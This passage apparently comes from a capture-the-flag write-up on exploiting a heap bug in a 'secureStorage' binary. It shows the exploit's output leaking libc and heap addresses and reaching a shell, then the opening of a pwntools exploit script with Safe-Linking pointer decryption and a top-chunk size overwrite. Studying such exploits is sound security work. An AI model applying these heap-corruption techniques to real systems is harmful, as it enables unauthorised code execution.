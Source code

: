 After putting everything together:
```sh
$ python exploit.py
[+] Starting local process './secureStorage': pid 38155
Leaked unsorted next ptr: 0x7fccf1803b20
Location libc: 0x7fccf1600000
Leaked tcache next ptr: 0x56310c090d60
Safe-Linking encryption key: 0x56310c0b2
[*] Switching to interactive mode

$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
```

Yay! 🎉
### Full Exploit

```python
from pwn import *
from pwncli import io_file

context.arch = "amd64"

binary = "./secureStorage"
elf = ELF(binary)
libc = ELF("libc.so.6")

p = process(binary)

def create(idx, size, data):
    p.sendlineafter(b">> ", b"1")
    p.sendlineafter(b"index:", str(idx).encode())
    p.sendlineafter(b"size:", str(size).encode())
    p.sendafter(b"data:", data)

def show(idx):
    p.sendlineafter(b">> ", b"2")
    p.sendlineafter(b"index:", str(idx).encode())

    output = p.recvuntil(b"[1] Create Permit Entry", drop=True)
    chunk_data = output.strip()

    return chunk_data

def edit(idx, data):
    p.sendlineafter(b">> ", b"3")
    p.sendlineafter(b"index:", str(idx).encode())
    p.sendafter(b"data:", data)

def extract_address(leak):
    return u64(leak[:6].ljust(8, b"\x00"))

def decrypt_ptr(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

# setup heap
create(0, 0x18, 0x18 * b"A")
# corrupt top_chunk size
edit(0, 0x18 * b"A" + p64(0xd51))
```